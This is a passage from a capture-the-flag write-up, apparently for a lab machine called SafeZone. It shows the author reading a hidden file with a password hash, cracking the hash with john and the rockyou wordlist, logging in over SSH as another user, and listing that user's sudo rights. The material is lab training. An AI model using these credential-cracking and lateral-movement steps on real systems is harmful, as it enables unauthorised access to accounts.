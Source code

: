 **Oh! That `.something#fake_can@be^here` file looks sussy:**
```
www-data@safezone:/var/www/html$ cat /home/files/.something#fake_can\@be\^here
files:$6$BUr7qnR3${Redacted}
```

That's a password hash!

**Let's crack it via `john`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt files.hash        
[...]
{Redacted}            (files)
```

**Cracked! Let's SSH to user `files`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# ssh files@$RHOSTS
files@10.10.245.138's password: 
[...]
files@safezone:~$ whoami;hostname;id;ip a
files
safezone
uid=1001(files) gid=1001(files) groups=1001(files)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:94:90:5e:ae:39 brd ff:ff:ff:ff:ff:ff
    inet 10.10.245.138/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2765sec preferred_lft 2765sec
    inet6 fe80::94:90ff:fe5e:ae39/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `files`!

### files to yash

Let's enumerate!

**Sudo permission:**
```
files@safezone:~$ sudo -l
Matching Defaults entries for files on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User files may run the following commands on safezone:
    (yash) NOPASSWD: /usr/bin/id
```

